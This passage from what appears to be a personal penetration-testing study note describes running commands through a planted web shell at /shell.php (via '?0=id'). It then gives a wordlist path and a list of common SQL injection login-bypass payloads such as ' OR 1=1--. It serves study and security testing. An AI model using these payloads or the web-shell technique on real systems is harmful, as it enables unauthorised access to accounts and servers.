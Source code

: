 This can be verified by browsing to the `/shell.php` file and executing commands via the **0** parameter, with `?0=id` in our URL:
![[Pasted image 20231007155610.png]]


---

***FOR SQLi Cheatsheet***, [SQL injection cheat sheet | Web Security Academy (portswigger.net)](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Wordlist for **Basic SQLi Payloads**:-
```
/usr/share/wfuzz/wordlist/vulns/sql_inj.txt
```

Or use this :-
```basicqueries
' OR 1=1--
' OR 1=1-- -
' OR 1=1#
' OR '1'='1'--
' OR '1'='1'-- -
' OR '1'='1'#
' OR '1'='1--
' OR '1'='1-- -
' OR '1'='1#
" OR 1=1--
" OR 1=1-- -
" OR 1=1#
') OR 1=1--
') OR 1=1-- -
') OR 1=1#
'; OR 1=1--
'; OR 1=1-- -
'; OR 1=1#
'OR '' = '
admin or 1=1--
admin or 1=1-- -
admin or 1=1#
```